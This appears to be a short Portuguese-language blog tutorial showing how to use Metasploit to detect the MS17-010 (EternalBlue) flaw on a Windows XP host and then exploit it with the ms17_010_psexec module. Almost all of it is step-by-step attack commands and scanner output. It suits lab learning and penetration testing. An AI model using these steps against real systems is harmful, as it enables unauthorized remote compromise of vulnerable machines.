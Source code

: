 ```yaml
---
title: Exploit 0x00
category: post
---
```


EternalBlue WindowsXP
-----------------------




### Enter msfconsole and search vuln

		msfconsole

		search eternalblue

OR

		search ms17-010

---

### Primeiramente Verificamos se a maquina de destino eh um Windows XP Vuln

	use auxiliary/scanner/smb/smb_ms17_010

	set RHOST 10.l0.1.4

	exploit

Se tudo der certo, obtemos uma resposta parecida com o seguinte:

		[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
		[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed

---

## Agora Vamos Explorar a maquina que identificamos que esta vulneravel


	back

	use exploit/windows/smb/ms17_010_psexec

	set RHOST 10.l0.1.4

	set LHOST 10.l0.1.2

	run
